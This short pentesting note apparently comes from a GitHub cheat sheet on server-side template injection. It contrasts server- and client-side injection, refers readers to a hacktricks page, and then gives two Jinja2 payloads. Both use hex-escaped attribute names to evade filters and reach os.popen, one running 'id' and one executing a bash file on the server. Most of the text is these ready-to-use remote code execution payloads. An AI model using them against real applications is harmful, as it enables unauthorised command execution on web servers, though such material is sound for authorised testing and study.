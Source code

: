 The difference between server side and client side template injections is that the former runs the template sintax in the server insted of in the context of the browser, like the latter.

Utilize payload wordlists to try to find the template engine, after having found the template engine search https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection for payloads.

	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

#### Execute file
	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('bash%20[file directory]')|attr('read')()}}